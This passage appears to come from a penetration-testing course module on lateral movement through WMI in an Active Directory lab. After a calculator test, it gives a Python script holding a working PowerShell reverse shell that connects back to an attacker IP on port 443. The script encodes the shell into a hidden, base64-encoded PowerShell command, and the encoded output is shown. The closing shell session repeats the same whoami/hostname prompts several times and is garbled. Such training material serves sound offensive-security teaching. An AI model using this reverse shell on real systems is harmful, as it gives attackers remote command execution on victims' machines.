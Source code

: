 > Listing 5 - Executing the WMI PowerShell payload.

Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded.

![Figure 1: Inspecting The Task Manager](https://static.offsec.com/offsec-courses/PEN-200/imgs/ad_lat_movement/53bbc5aa681c96dbeb7a8a24331a7d39-calc.png)

Figure 1: Inspecting The Task Manager

Info

The PID of win32calc.exe is different from the PID in Listing 1 because the PID in Listing 1 belongs to calc.exe. When the wmic command in Listing 1 runs, it creates the process of calc.exe, which starts another process win32calc.exe, then calc.exe exits, leaving win32calc.exe running.

To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell.

First, we'll encode the PowerShell reverse shell, so we don't need to escape any special characters when inserting it as a WMI payload.

The following Python code encodes the PowerShell reverse shell to base64 contained in the _payload_ variable and then prints the result to standard output.

Reviewing the entire PowerShell payload is outside the scope of this Module.

We need to replace the highlighted IP and port with the ones of our attacker Kali machine.

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

> Listing 6 - Executing the WMI PowerShell payload.

Once we have saved the Python script, we can run it and retrieve the output to use later.

```
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

> Listing 7 - Running the base64 encoder Python script

After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse shell payload.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname